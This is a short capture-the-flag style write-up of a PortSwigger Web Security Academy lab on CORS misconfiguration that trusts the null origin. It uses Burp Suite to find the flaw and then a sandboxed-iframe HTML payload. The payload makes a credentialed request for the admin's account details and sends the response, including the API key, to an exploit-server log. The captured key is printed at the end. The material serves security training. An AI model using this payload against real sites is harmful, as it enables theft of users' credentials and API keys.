


### CORS vulnerability with trusted null origin : APPRENTICE

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.


> We see this page.




> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.



> We see that the response contains the ACAC header, meaning that the CORS protocol is being used.
> To try and bypass it, we supply the `origin` header in the request with the value `null` and see how the application responds.


> We see that the value `null` is whitelisted, as the ACAO and ACAC headers are returned with the appropriate values.
> To bypass it, we craft a payload that has the value `null` in it, such as using an `iframe` sandbox.
> This makes the origin seem like it is null.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a4d000f04ac541d80229edd004f005a.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='https://exploit-0aa100160477546e80179dbe0165007e.exploit-server.net/log?key='+this.responseText; 
}; </script>">
</iframe>
```

> Adding it to the exploit server and then storing it and delivering to victim.


> Open the access log and see that another IP address is logged, and in the path of the request, is the response.
> In the response is the API key.


```
dTGpheHczcbbOCpzhFeEazetUhLMvgP8
```

> Submitting the solution completes the lab.

---
